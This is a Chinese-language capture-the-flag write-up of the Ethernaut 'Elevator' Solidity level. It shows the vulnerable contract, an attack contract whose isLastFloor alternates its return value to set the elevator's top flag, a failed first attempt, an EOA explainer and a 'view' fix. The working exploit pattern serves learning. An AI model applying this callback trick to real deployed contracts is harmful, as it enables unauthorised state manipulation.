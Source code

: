 # 11-Elevator

日期: 19/08/2024
漏洞小结: 没有使用view
简单明了: 改写Interface合约来绕过If condition
难易: 困难

# 问题描述

This elevator won't let you reach the top of your building. Right?

### **Things that might help:**

- Sometimes solidity is not good at keeping promises.
- This `Elevator` expects to be used from a `Building`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

# 攻击思路

攻破这个靶机两个关键点

1. isLastFloor这个函数，如果要条件成立的话进入到if的画，需要return false。如果什么也不做，那么top也就是false。所以需要让它满足条件的时候是false，然后进去之后会变成true

```bash
        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
```

1. 要实现第一点，那么就只能把Interface写成contract然后去部署一遍了，每次调用之后实现让isLastFloor的值实现交替。

# 攻击方式

1. 把代码复制到remix，把interface写成contract，填充isLastFloor函数内容，让其交替返回true和false
2. 用remix的at address部署在目标实例(Elevator)的地址，然后进行才做即可
3. Building合约里面还需要带上目标victim合约的constructor，以及`attack`，需要让部署的Building合约去调用`isLastFloor`，我们直接调用不行

代码如下

```solidity
contract Building {
    uint256 public count;
    Elevator victim;
    constructor(address _victim){
        victim = Elevator(_victim);
    }

    function isLastFloor(uint256) external returns (bool){
        count++;
        return count % 2 == 0;
    }

    function Attack() public {
        victim.goTo(2);
    }
}
```

# Ethernuat总结

You can use the `view` function modifier on an interface in order to prevent state modifications. The `pure` modifier also prevents functions from modifying the state. Make sure you read [Solidity's documentation](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions) and learn its caveats.

An alternative way to solve this level is to build a view function which returns different results depends on input data but don't modify state, e.g. `gasleft()`.

# 小白的思考

其实蛮难的，虽然他只放了两颗星，可能有什么简单的做法我没搞清楚。

和之前不同的事，相较于重新写一个攻击脚本，这次我们要重新改写利用interface来写，并且两个合约在相互来回调用。刚开始没理解到这一点，攻击失败，以为在Elevator合约里面直接通过goTo函数就可以完成共计。

代码如下

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Building {
    uint256 public count = 0;
    function isLastFloor(uint256) external returns (bool){
        count++;
        return count % 2 == 0;
    }
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

然而实际上做不到，因为在调用goTo的时候时候，使用现有地址去创建Building实例。如果是我们去调用的话，那地址就是我们的。但是我们自己的地址压根没有`isLastFloor`函数，也就无法执行`building.isLastFloor` 。会回滚。

所以还是需要新建一个共计合约。

整个思考过程蛮绕的，不简单。

## EOA

EOA的概念有点忘记了，GPT帮我复习一下：

EOA（Externally Owned Account）即外部账户，是指由私钥控制的普通账户，通常由个人用户持有。EOA 的特点如下：

- **没有关联智能合约**：EOA 是由用户私钥直接控制的，不包含任何合约代码。
- **使用私钥签名交易**：你可以通过私钥签名来发起交易，比如发送以太币或调用智能合约的函数。
- **有 `msg.sender` 的身份**：在智能合约中，当 EOA 调用合约时，`msg.sender` 会被设置为这个 EOA 的地址。

相对于 EOA，另一个重要的概念是智能合约账户（Contract Account），它是由代码控制的账户，没有私钥控制，行为完全依赖合约代码。

回到你当前的挑战，你的 EOA 是你直接在 Remix 或其他钱包中控制的账户。当你从这个 EOA 直接调用 `Elevator` 合约时，`msg.sender` 是这个 EOA 的地址，但这个地址不实现 `isLastFloor` 函数，所以会导致合约调用失败。

通过让你的 `Building` 合约调用 `Elevator` 合约，`msg.sender` 就变成了 `Building` 合约的地址，解决了这个问题。

## View

去看了一下要注意点的点，以及解题完毕之后出现的知识点，（笑鼠）完全没有联系到。

这里需要注意的说明是，像是题中的interface 这种is开头的，return bool的函数，那么他就应该是view，不然的花就有可能被修改状态，导致漏洞

- 我们的攻击中我们修改了count的状态

比较安全的interface如下

```solidity
interface Building {
    function isLastFloor(uint256) external **view** returns (bool);
}
```